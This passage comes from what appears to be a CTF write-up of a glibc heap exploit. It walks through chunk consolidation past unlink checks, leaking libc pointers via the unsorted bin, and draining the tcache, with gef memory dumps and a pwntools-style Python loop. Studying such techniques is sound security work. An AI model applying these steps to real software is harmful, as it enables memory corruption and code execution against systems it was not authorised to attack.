 * It is evident that the line `if (__builtin_expect (FD->bk != P || BK->fd != P, 0))` will use the two pointers from chunk A's `fd` and `bk` fields to perform some security checks. If we didn't free chunk A initially, those pointers would be `NULL`, and this check here would attempt to dereference these `NULL` pointers, and thus seg fault immediately. Freeing chunk A initially prevents that as well as lets us get past these security checks.

* Finally, this entire consolidated chunk (size 0x350) is placed into the unsorted bin, and its `fd` and `bk` pointers are set to point into the unsorted bin in the `main_arena` which is in libc. This entire chunk essentially is placed right on top of chunks A, B, and C:

```c
gef➤  heap bin unsorted

[+] unsorted_bins[0]: fw=0x55a7bc254250, bk=0x55a7bc254250
 →   Chunk(addr=0x55a7bc254260, size=0x350, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.

gef➤  x/150gx 0x55a7bc254250
0x55a7bc254250: 0x0000000000000000      0x0000000000000351 <- consolidated chunk A
0x55a7bc254260: 0x00007f7e28fbeca0      0x00007f7e28fbeca0 <- libc pointers
...
0x55a7bc254370: 0x0000000000000000      0x0000000000000000
0x55a7bc254380: 0x0000000000000130      0x0000000000000120 <- chunk B
0x55a7bc254390: 0x4242424242424242      0x4242424242424242
...
0x55a7bc2544a0: 0x0000000000000250      0x0000000000000100 <- chunk C
0x55a7bc2544b0: 0x4343434343434343      0x4343434343434343
0x55a7bc2544c0: 0x4343434343434343      0x4343434343434343
...
```

#### Step 7: **Empty the 0x128 tcache bin in order to use the unsorted bin**

* We must now empty the 0x128 sized tcache bin, so that any mallocs we make with size 0x128 will come out of the unsorted bin. We need to do this because the tcache bin takes priority over the unsorted bin for allocations.

* We do this simply by allocating 7 chunks of size 0x128, so that the 7 chunks in the tcache bin of size 0x128 are taken out.

```python
# Empty the 0x128 tcache bin so we can get chunks out of the unsorted bin
# Indexes taken up: 0, 2, 3, 4, 5, 6, 7
for i in range(7):
  add(0x128)
```

#### Step 8: **Allocate chunk A back again to move the libc pointers into chunk B**

* We now add a chunk of size 0x128, which gets serviced by the unsorted bin. This will take a 0x128 size chunk out from the 0x350 sized chunk already in the unsorted bin and return it to us. In this case, this returns the chunk A that we initially allocated back to us.
